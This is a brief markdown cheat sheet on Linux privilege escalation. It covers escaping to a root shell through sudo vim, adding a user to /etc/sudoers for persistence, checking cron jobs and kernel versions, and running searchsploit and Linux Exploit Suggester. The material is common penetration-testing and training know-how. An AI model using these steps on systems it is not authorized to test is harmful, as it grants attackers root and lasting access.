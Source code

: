 ## Vim Command

```
sudo -l
```

### Non Persistence Method

```
sudo vim

:set shell=/bin/bash
:shell
```

### Persistence Method

```
sudo vim /etc/sudoers

In the User privilege specification section
<username> ALL=(ALL:ALL) ALL
```

## CRON Jobs

```
# View the Contents of Crontab
cat /etc/crontab
```

## kernal Exploits

```
# View the Kernal Details and Distribution Information
uname -a

lsb_release -a
```

```
# Search for Kernal Exploits
searchsploit linux kernal 5
```

### Linux Exploit Suggester Script

[Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

```
git clone https://github.com/The-Z-Labs/linux-exploit-suggester

cd linux-exploit-suggester

./linux-exploit-suggester.sh -h
```
